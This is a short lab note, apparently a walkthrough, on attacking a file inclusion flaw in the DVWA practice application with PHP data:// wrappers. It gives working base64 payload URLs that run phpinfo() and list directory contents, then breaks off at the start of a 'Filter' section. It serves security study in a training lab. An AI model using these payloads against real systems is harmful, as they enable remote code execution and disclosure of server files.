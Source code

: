 ## PHP Wrappers

### Data
- PHP Info
	- ` http://192.168.0.104/dvwa/vulnerabilities/fi/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg== `

	- `PD9waHAgcGhwaW5mbygpOyA/Pg== ` is **Base64** encoded value for `<?php phpinfo(); ?>`
- List all files
	- `http://192.168.0.103/dvwa/vulnerabilities/fi/?page=data://text/plain;base64,PD9waHAgJGE9c2NhbmRpcigiLi8iKTtwcmludF9yKCRhKTsgPz4=`
	- `PD9waHAgJGE9c2NhbmRpcigiLi8iKTtwcmludF9yKCRhKTsgPz4=` is **Base64** encoded value for `<? php $a=scandir("./");print_r($a); ?>`

### Filter

- A good way to get page's source code..
- 